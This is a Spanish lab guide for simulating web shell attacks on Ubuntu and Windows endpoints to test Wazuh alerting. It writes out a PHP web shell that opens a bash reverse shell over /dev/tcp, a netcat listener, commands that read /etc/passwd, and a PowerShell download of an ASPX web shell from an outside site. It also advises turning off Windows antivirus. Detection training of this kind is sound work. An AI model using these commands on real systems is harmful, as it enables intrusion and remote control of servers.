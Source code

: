     ```php
    echo -e "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/<IP_DEBIAN>/4444 0>&1\"');?>" > /var/www/html/webshell.php
    ```

#### Debian

1. En el terminal de nuestra Debian utilizaremos netcat (nc, instaladlo si no lo está) para escuchar conexiones en el puerto **4444**:

    ```bash
    $ nc -nlvp 4444
    ```

2. Ejecutar la web shell desde nuestro navegador accediendo a la URL `http://<IP_UBUNTU>/webshell.php`, de tal forma que se establezca una shell inversa con el endpoint Ubuntu hacia nuestra Debian atacante.


3. En el terminal que nos aparecerá en el netcat de nuestra Debian, ejecutar varios comandos tales como `id`, `cat /etc/passwd`, `whoami`...


#### Ver las alertas

En el dashboard de Wazuh, navegar a ***Security events*** y visualizar las alertas generadas:


### Pasos para simular el ataque contra el endpoint Windows

#### Windows

!!!warning "Atención"
    Es más que probable que necesitéis desactivar el antivirus y la detección de amenazas de Windows para que os funcione esta parte.

Ejecutar los siguientes pasos en una terminal de PowerShell ejecutándose como administrador:

1. Descargar una copia de una web shell en el directorio del servidor web `C:\inetput\wwwroot` y llamarla, por ejemplo, `webshell.aspx`:

    ```powershell
    > Invoke-WebRequest -OutFile 'C:\Users\Public\Downloads\webshell.aspx' -Uri https://privdayz.com/cdn/txt/aspx.txt
    > copy 'C:\Users\Public\Downloads\webshell.aspx' 'C:\inetpub\wwwroot\webshell.aspx'
    ```

#### Debian

1. En el terminal de nuestra Debian escuchamos conexiones en el puerto **4444**:

    ```bash
    $ nc -nlvp 4444
    ```

2. Acceder a la web shell desde nuestro navegador mediante la URL `http://<IP_WINDOWS>/webshell.aspx`.
